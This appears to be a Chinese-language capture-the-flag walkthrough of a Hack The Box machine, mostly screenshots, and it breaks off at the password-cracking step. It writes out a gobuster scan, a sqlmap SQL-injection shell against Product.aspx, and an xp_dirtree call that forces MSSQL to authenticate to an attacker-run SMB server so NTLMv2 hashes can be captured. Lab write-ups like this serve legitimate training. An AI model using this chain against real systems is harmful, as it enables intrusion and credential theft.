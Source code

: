 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KzZcibEibBdRGBwa51PxNXCvOpd2Cgy1Nr4wbh7ns2NJcibcibL7stRPJicA/640?wx_fmt=png)

```
gobuster dir -w directory-list-2.3-medium.txt -u http://10.10.10.104/
```

发现了 / remote 目录，访问...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KfwZauQ8xic2mvZgaYYDOhPnDuqFuVEgZxIbia5lPeicWsbH9bOpqfmh6A/640?wx_fmt=png)

可以看到重定向到了 Windows PowerShell Web Access...

提醒我们该网站使用安全套接字层（SSL）协议，并且需要 HTTPS 地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KkrBL6cb4CAsYMCIvpKtmibDmDiaRpvstJXjy9sAPEm6AEfbVbtnIOcpA/640?wx_fmt=png)

OK，按照他说做...

这里需要用户名和密码进行登陆，目前都没... 继续访问 mvc...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9K41LmhdQlS6CC7ibX0DvdNbuPs56rFzIficMZH6hpYV9w3nvWCAp1qkGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9K8aK8M8icAmyUe8Fe6YXE4vF2zmc0ia9M7ibI4qFMynn4JnsWYkqv04drA/640?wx_fmt=png)

登陆这是一个产品列表，进去可以看到价格...

关注到该页面地址：

```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=26
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KcTan7u3tCT3XXO63UvmFZ9dBxI7dtqN9EcpyYhQh8wAR8jmQrvVfjQ/640?wx_fmt=png)

随意加个字符，发现存在 sql 错误信息... 提示引号字符串错误... 这里利用 sqlmap 注入看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KH9tDvfjCPgMGSoGXF2HGmT37B6yExPyVqt6PrQXwRxhNEicibIvvibGGQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KdbAfvOklHd2tTVUWRlB6BHA8UMNgTy5MS6dCx6wVKsoBcAoSXVr0ibA/640?wx_fmt=png)

可以看到，正在以 MSSQL 作为 DBMS 运行着... 可以强制 MSSQL 服务器重新连接以与 SMB 一起使用，然后使用响应程序来获取 NTLMv2 哈希...

MSSQL 支持堆叠查询，因此可以创建一个指向我们 IP 地址的变量，然后使用该 xp_dirtree 函数列出 SMB 共享中的文件并获取 NTLMv2 哈希.

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9KtbTv3LKj0R8bZMftLeaaR5rVd4RrV8bqicc6dibG2icMkInqWhXCzZHXA/640?wx_fmt=png)

```
python3 smbserver.py dayu pwd
sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=26 --sql-shell
EXEC master..xp_dirtree '\\10.10.14.11\dayu'
```

成功获得用户和哈希值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMTpBDhmW2a9aksmhZm6F9K5ziczqSESf9I8wkAdsVeic61f1pjymBES27pLmWSEpXWApakxiaZb6GDw/640?wx_fmt=png)

利用 john 解析了密码：
